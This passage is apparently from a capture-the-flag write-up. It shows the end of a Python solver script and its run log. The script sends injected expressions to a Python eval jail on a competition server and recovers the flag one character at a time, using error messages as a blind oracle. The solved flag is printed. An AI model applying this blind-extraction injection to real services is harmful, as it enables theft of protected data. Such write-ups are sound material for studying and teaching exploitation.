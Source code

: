 ```py:solver.py
  return "cannot" in message

def is_mid(n: int, mid: int) -> bool:
  payload = f"ord(_[{n}])=={mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def b_search(n: int, min: int, max: int) -> int:
  left = min
  right = max
  while left <= right:
      mid = (left + right) // 2
      if is_left(n, min, mid):
          right = mid - 1
          continue
      if is_right(n, mid, max):
          left = mid + 1
          continue
      if is_mid(n, mid):
         return mid
      return -1
  return -1

flag = ""
for i in range(0, 100):
  print(f"i={i}")
  result = b_search(i, 32, 126)
  if result == -1:
     break
  flag += chr(result)
  print(flag)

print(f"flag: {''.join(flag)}")
```

```sh
＄python solver.py
[+] Opening connection to amt.rs on port 31670: Done
i=0
a
i=1
am
i=2
ama
<SNIP>
amateursCTF{i_l0v3_overwr1t1nG_functions..:
i=43
amateursCTF{i_l0v3_overwr1t1nG_functions..:D
i=44
amateursCTF{i_l0v3_overwr1t1nG_functions..:D}
i=45
flag: amateursCTF{i_l0v3_overwr1t1nG_functions..:D}
[*] Closed connection to amt.rs port 3167
```
